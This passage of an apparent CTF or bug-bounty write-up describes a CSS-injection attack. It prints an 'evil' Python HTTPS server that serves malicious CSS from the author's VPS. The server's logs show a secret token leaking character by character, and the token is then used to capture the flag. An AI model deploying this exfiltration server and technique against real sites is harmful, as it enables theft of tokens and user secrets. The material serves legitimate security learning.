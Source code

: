 As the browser only seems to load CSS from an SSL website, I wrote a small script for my evil HTTPS Server in Python and placed it on my VPS:


```python
$ cat httpserver.py 
from http.server import HTTPServer, BaseHTTPRequestHandler
import ssl
import logging

evil_css = open("evil.css", "rb").read()

class SimpleHTTPRequestHandler(BaseHTTPRequestHandler):

    def do_GET(self):
        if self.path == "/css":
            # logging.error(self.headers)
            self.send_response(200)
            self.send_header("Access-Control-Allow-Origin", "*")
            self.send_header("Content-Type", "text/css")
            self.end_headers()
            self.wfile.write(evil_css)
        else:
            # logging.error(self.headers)
            self.send_response(200)
            self.send_header("Access-Control-Allow-Origin", "*")
            self.end_headers()


httpd = HTTPServer(('0.0.0.0', 9999), SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket (httpd.socket, 
        keyfile="[redacted]", 
        certfile="[redacted]", server_side=True)
httpd.serve_forever()
```

After running the Python script and pointing the URL in the request to `https://[attackerserver]:9999/css`, the log output of the script looked as follows:

```bash
$ python3 httpserver.py 
3.21.98.146 - - [05/Jun/2020 21:05:12] "GET /css HTTP/1.1" 200 -
3.21.98.146 - - [05/Jun/2020 21:05:12] "GET /log_7/S HTTP/1.1" 200 -
3.21.98.146 - - [05/Jun/2020 21:05:12] "GET /log_1/t HTTP/1.1" 200 -
3.21.98.146 - - [05/Jun/2020 21:05:12] "GET /log_2/K HTTP/1.1" 200 -
3.21.98.146 - - [05/Jun/2020 21:05:13] "GET /log_3/s HTTP/1.1" 200 -
3.21.98.146 - - [05/Jun/2020 21:05:13] "GET /log_4/P HTTP/1.1" 200 -
3.21.98.146 - - [05/Jun/2020 21:05:13] "GET /log_5/v HTTP/1.1" 200 -
3.21.98.146 - - [05/Jun/2020 21:05:13] "GET /log_6/g HTTP/1.1" 200 -
```

Entering `tKsPvgS` as token succeeded - finally, all bounties were paid and the flag got displayed:

{F858483}
